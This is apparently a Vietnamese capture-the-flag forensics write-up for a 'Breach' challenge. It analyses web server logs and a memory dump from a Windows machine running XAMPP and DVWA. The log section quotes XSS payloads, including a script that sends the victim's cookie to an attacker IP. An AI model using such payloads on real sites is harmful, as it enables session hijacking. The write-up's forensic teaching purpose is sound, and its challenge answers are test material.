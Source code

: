 ##### Tại dòng log thứ 3292:
`::1 - - [01/Sep/2015:23:00:04 -0700] "GET /dvwa/security.php?test=%22><script>eval(window.name)</script> HTTP/1.1" 200 37 "http://localhost/dvwa/security.php" "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.0; SLCC1; .NET CLR 2.0.50727; .NET CLR 3.0.04506)"`
##### Ở endpoint `security.php` 1 đoạn script `<script>eval(window.name)</script>` được chèn vào sau tham số `test=` cho thấy 1 cuộc tấn công xss đang được diễn ra.
##### Ở các dòng log tiếp theo, 1 cuộc tấn công XSS Reflected được triển khai
```
::1 - - [01/Sep/2015:23:04:40 -0700] "GET /dvwa/vulnerabilities/xss_r/?name=%3Cscript%3Edocument.location%3D%22http%3A%2F%2F192.168.56.102%2F%3F%22%2Bdocument.cookie%3B%3C%2Fscript%3E HTTP/1.1" 200 4548 "http://localhost/dvwa/vulnerabilities/xss_r/" "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.0; SLCC1; .NET CLR 2.0.50727; .NET CLR 3.0.04506)"
```
##### Tham số truyền vào là : ``?name=<script>document.location="http://192.168.56.102/?"+document.cookie;</script> HTTP/1.1" 200 4548 "http://localhost/dvwa/vulnerabilities/xss_r/"``
##### Có thể hiểu nôm na rằng mã JavaScript này sẽ thực thi trên trình duyệt của nạn nhân và gửi cookie của nạn nhân đến máy chủ của attacker 192.168.56.102.
### 4. What is the OS build number?
##### Ta xác định `OS build number` ở `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion`
> Payload :  python2 vol.py -f ~/Downloads/Cyberdefender/Breach/memdump.mem --profile=VistaSP1x86 printkey -o 0x87b55a20 -K "Microsoft\Windows NT\CurrentVersion"

![image](https://hackmd.io/_uploads/rkNun_x9ke.png)

### 5. How many users are on the compromised machine?
##### Với câu hỏi này mình export file SAM ra để xem các user trên máy, nó nằm ở Windows/System32/config.
![image](https://hackmd.io/_uploads/B1Et3se9ke.png)
##### Ta thấy có 4 user trên máy

### 6. What is the webserver package installed on the machine?
##### Dựa theo những gì đã phân tích ở câu hỏi số 3 ta có thể biết rằng xampp được tải xuống và chạy trên máy
##### Ngoài ra ta cũng có thể tìm thấy file setup của nó ở user Administrator trong thư mục desktop.
![image](https://hackmd.io/_uploads/rkiuJxfc1x.png)


### 7. What is the name of the vulnerable web app installed on the webserver?
##### Truy cập vào folder htdocs ta thấy có 1 thư mục tên là `DVWA` - đây là viết tắt của Damn Vulnerable Web Application, một ứng dụng web dùng để thực hành kiểm thử bảo mật.
```
htdocs là thư mục gốc (document root) của Apache trong XAMPP hoặc các máy chủ web tương tự. Nó là nơi chứa các tệp và thư mục của website mà máy chủ web sẽ phục vụ cho người dùng khi truy cập.
```
##### Cấu trúc thư mục: Bên trong DVWA, có các thư mục đặc trưng như: 
    - Vulnerabilities/ chứa các thư mục con như sqli, xss_s, csrf, upload, exec... Đây là những kiểu lỗ hổng bảo mật phổ biến.